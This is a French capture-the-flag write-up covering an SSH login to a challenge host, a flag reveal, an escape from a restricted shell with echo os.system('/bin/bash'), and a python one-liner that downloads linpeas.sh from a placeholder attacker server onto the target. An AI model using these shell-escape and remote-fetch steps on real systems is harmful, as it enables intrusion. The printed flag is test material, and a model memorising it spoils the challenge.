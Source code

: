 On trouve un port élevé que nous n'avions pas avant : ``45236``

On peut se connecter en ssh :
```bash
sudo chmod 400 ./id_rsa
ssh -i ./id_rsa -p 45236 harvester@20.126.99.66
```

Et HOP !  Un shell
![AltText](./img/rbash.png)

On peut lire le flag : Enfin !!!!!!!!!!!

```bash
harvester:~$ ls
current-log.log  flag-4.txt  host_discovered  root@10.10.99.124
harvester:~$ cat flag-4.txt
Flag 4 : ISEC{pR150n_8re4k}
harvester:~$
```

---

## Where am I

- **Nom**  : Where am I...
- **Point** : 30
- **Description** : You're in! Explore their infrastructure and bring back as much information as possible to take them down.

###### Solution:

La première chose est d'``escape`` le **lbash** .
On peut lister les commandes possibles :
```bash
harvester:~$ help
cat  cd  clear  echo  exit  help  history  lpath  ls  lsudo  pwd
```

D'après [cette page](https://netsec.ws/?p=337) on peut escape le lbash facilement :
```bash
harvester:~$ echo os.system('/bin/bash')
harvester@harvester:~$ id
uid=1000(harvester) gid=1000(harvester) groups=1000(harvester)
harvester@harvester:~$
```

On peut importer des fichiers sur le ssh de la manière suivante :
```bash
python2 -c "from urllib import urlretrieve; urlretrieve('https://VPS_IP/linpeas.sh', '/tmp/linpeas.sh')"
```

Malheureusement, je n'ai pas trouvé de **privesc** simple à faire.
Par contre, on trouve quelque chose de très intéressant !

```bash
╔══════════╣ Hostname, hosts and DNS
harvester
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
10.14.1.2       harvester
192.168.51.2    harvester
search dxlienjzncwejnldfntx3slhac.ax.internal.cloudapp.net
nameserver 127.0.0.11
```